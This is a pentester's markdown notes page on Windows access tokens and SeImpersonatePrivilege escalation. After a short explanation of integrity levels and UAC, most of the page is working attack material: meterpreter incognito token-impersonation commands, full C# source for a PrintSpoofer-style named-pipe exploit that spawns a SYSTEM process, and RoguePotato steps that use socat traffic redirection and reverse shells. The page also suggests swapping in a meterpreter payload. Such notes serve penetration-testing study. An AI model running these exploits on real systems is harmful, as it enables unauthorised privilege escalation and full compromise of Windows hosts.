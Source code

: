 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Access_Tokens
---
```



<span style="font-size: 35px; color:red"><b>Access Tokens</b></span>

https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/

An access token is created by the kernel upon user authentication and contains important values that are linked to a specific user through the SID.
We are interested in _Integrity Levels_ (Low: services like sandboxes or web browsers, Medium: Regular users, High: Administrators, System: System services) and _Privileges_.

Local administrators receive two access tokens when authenticating. The first (which is used by default) is configured to create processes as medium integrity. When a user selects the "Run as administrator" option for an application, the second elevated token is used instead, and allows the process to run at high integrity. The _User Account Control_ (UAC) mechanism links these two tokens to a single user and creates the consent prompt. A local administrator regulated by UAC is sometimes also called a split-token administrator.
To check privs:

```shell
whoami /priv
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Elevation With SeImpersonatePrivilege (PrintSpoofer)</b></span>

Other similar exploit: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
https://github.com/itm4n/PrintSpoofer <-- USE THIS ONE IF YOU CAN (run <span style="color:red">printspoofer.exe -i -c powershell</span> from a profile that has the SeImpersonationPriv on).


After receiving a meterpreter revshell, you can play with impersonation tokens using the <span style="color:red">incognito</span> module:
```shell
load incognito
help incognito
list_tokens -u
impersonate_token <domain>\\<user>
```
and run <span style="color:red">shell</span> and <span style="color:red">whoami</span> to see if it worked.


This code expects the pipe name to be passed on the command line:
```cs
using System;
using System.Runtime.InteropServices;

namespace PrintSpooferNet
{		
    class Program
    {

		[StructLayout(LayoutKind.Sequential)]
		public struct SID_AND_ATTRIBUTES
		{
		    public IntPtr Sid;
		    public int Attributes;
		}

		public struct TOKEN_USER
		{
		    public SID_AND_ATTRIBUTES User;
		}

		[StructLayout(LayoutKind.Sequential)]
		public struct PROCESS_INFORMATION
		{
		    public IntPtr hProcess;
		    public IntPtr hThread;
		    public int dwProcessId;
		    public int dwThreadId;
		}

		[StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
		public struct STARTUPINFO
		{
		    public Int32 cb;
		    public string lpReserved;
		    public string lpDesktop;
		    public string lpTitle;
		    public Int32 dwX;
		    public Int32 dwY;
		    public Int32 dwXSize;
		    public Int32 dwYSize;
		    public Int32 dwXCountChars;
		    public Int32 dwYCountChars;
		    public Int32 dwFillAttribute;
		    public Int32 dwFlags;
		    public Int16 wShowWindow;
		    public Int16 cbReserved2;
			public IntPtr lpReserved2;
		    public IntPtr hStdInput;
		    public IntPtr hStdOutput;
		    public IntPtr hStdError;
		}
		[DllImport("advapi32", SetLastError = true, CharSet = CharSet.Unicode)]
		public static extern bool CreateProcessWithTokenW(IntPtr hToken, UInt32 dwLogonFlags, string lpApplicationName, string lpCommandLine, UInt32 dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

		
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr CreateNamedPipe(string lpName, uint dwOpenMode, uint dwPipeMode, uint nMaxInstances, uint nOutBufferSize, uint nInBufferSize, uint nDefaultTimeOut, IntPtr lpSecurityAttributes);

		[DllImport("kernel32.dll")]
		static extern bool ConnectNamedPipe(IntPtr hNamedPipe, IntPtr lpOverlapped);

		[DllImport("Advapi32.dll")]
		static extern bool ImpersonateNamedPipeClient(IntPtr hNamedPipe);

		[DllImport("kernel32.dll")]
		private static extern IntPtr GetCurrentThread();

		[DllImport("advapi32.dll", SetLastError = true)]
		static extern bool OpenThreadToken(IntPtr ThreadHandle, uint DesiredAccess, bool OpenAsSelf, out IntPtr TokenHandle);

		[DllImport("advapi32.dll", SetLastError = true)]
		static extern bool GetTokenInformation(IntPtr TokenHandle, uint TokenInformationClass, IntPtr TokenInformation, int TokenInformationLength, out int ReturnLength);

		[DllImport("advapi32", CharSet = CharSet.Auto, SetLastError = true)]
		static extern bool ConvertSidToStringSid(IntPtr pSID, out IntPtr ptrSid);

		[DllImport("advapi32.dll", CharSet = CharSet.Auto, SetLastError = true)]
		public extern static bool DuplicateTokenEx(IntPtr hExistingToken, uint dwDesiredAccess, IntPtr lpTokenAttributes, uint ImpersonationLevel, uint TokenType, out IntPtr phNewToken);

        static void Main(string[] args)
        {
            if (args.Length == 0)
            {
                Console.WriteLine("Usage: PrintSpooferNet.exe pipename");
                return;
            }
            string pipeName = args[0];
            IntPtr hPipe = CreateNamedPipe(pipeName, 3, 0, 10, 0x1000, 0x1000, 0, IntPtr.Zero);

			ConnectNamedPipe(hPipe, IntPtr.Zero);
			ImpersonateNamedPipeClient(hPipe);

			IntPtr hToken;
			OpenThreadToken(GetCurrentThread(), 0xF01FF, false, out hToken);

			int TokenInfLength = 0;
			GetTokenInformation(hToken, 1, IntPtr.Zero, TokenInfLength, out TokenInfLength);
			IntPtr TokenInformation = Marshal.AllocHGlobal((IntPtr)TokenInfLength);
			GetTokenInformation(hToken, 1, TokenInformation, TokenInfLength, out TokenInfLength);

			TOKEN_USER TokenUser = (TOKEN_USER)Marshal.PtrToStructure(TokenInformation, typeof(TOKEN_USER));
			IntPtr pstr = IntPtr.Zero;
			Boolean ok = ConvertSidToStringSid(TokenUser.User.Sid, out pstr);
			string sidstr = Marshal.PtrToStringAuto(pstr);
			Console.WriteLine(@"Found sid {0}", sidstr);

			IntPtr hSystemToken = IntPtr.Zero;
			DuplicateTokenEx(hToken, 0xF01FF, IntPtr.Zero, 2, 1, out hSystemToken);

			PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
			STARTUPINFO si = new STARTUPINFO();
			si.cb = Marshal.SizeOf(si);
			CreateProcessWithTokenW(hSystemToken, 0, null, "C:\\Windows\\System32\\cmd.exe", 0, IntPtr.Zero, null, ref si, out pi);

        }
    }
}
```
You can change the final <span style="color:red">C:\\Windows\\System32\\cmd.exe</span> with whatever you wanna run as high integrity (also a meterpreter shell).


To test it:
```shell
psexec64 -i -u "NT AUTHORITY\Network Service" cmd.exe
```
From the newly open cmd (leave it hanging):
```shell
PrintSpooferNet.exe \\.\pipe\test
```
And from another cmd.exe (3rd one open):
```shell
echo hello > \\localhost\pipe\test
```

---
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Juicy Potato + Rotten Potato = Rougue Potato</b></span>

Abusing <span style="color:red">SeImpersonatePrivilege</span>

Redirect traffic flow to 9999:
```shell
sudo socat tcp-listen:135,reuseaddr,fork tcp:<remote_ip>:9999
```

Then start an elevated prompt:
```shell
PSExec64.exe -i -u "nt authority\local service" C:\Privesc\<revshell>.exe
```
From the revshell you just spowned, run the roguepotato exploit to get a second revshell with SYSTEM privs:
```shell
RoguePotato.exe -r <ip> -e "C:\Privesc\<revshell>.exe" -l 9999
```
And you will get a revshell as System.
